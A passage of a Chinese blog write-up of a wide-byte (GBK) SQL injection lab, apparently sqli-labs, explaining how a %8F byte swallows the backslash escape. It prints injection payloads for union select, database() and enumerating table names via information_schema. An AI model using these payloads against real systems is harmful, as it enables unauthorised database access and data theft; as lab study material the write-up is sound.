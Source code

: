 <img src="https://i-blog.csdnimg.cn/blog_migrate/6d2f5cd75ed0ae4eb96ae33a48da1672.png" alt="" style="max-height:147px; box-sizing:content-box;" />


通过这个判断 可能不是直接过滤符号 而是进行转义



<img src="https://i-blog.csdnimg.cn/blog_migrate/b79b55181c9bed1017814d2c2b2f3c2a.png" alt="" style="max-height:196px; box-sizing:content-box;" />




```erlang
\'的hex为
%5c%27
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/2df06f0ea389fd2297367b1ae32182f1.png" alt="" style="max-height:85px; box-sizing:content-box;" />


在这发现遇到'就会加上\

%5c在范围0x40-0xFE中 符合第二个字节

### 那我们只要输入一个符合第一个字节的 就可以让GBK编码认为 这个是一个汉字 然后就吞掉\转义符

```cobol
-1%8F%27%20union%20select%201,2,3--%20+
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/eb37797ac324cb97650d7bf8967d53a2.png" alt="" style="max-height:267px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/3e5b9715a74f35ca3a8acee880dddce6.png" alt="" style="max-height:110px; box-sizing:content-box;" />


首先是字符型 所以只会读取第一个数字来查询

所以后面的汉字对查询没有影响

```cobol
-1%8F%27%20union%20select%201,2,database()--%20+
```

爆破表

```cobol
-1%8F%27%20union%20select%201,group_concat(table_name),2%20from%20information_schema.tables%20where%20table_schema=0x7365637572697479--%20+
```

这里是将数据库名 通过 ascii转码 变为16进制

因为我们要输入字符串 就会需要''来包裹 所以我们直接输入16进制即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/9173a68d1f44de2ce9d6129c57fd2147.png" alt="" style="max-height:560px; box-sizing:content-box;" />
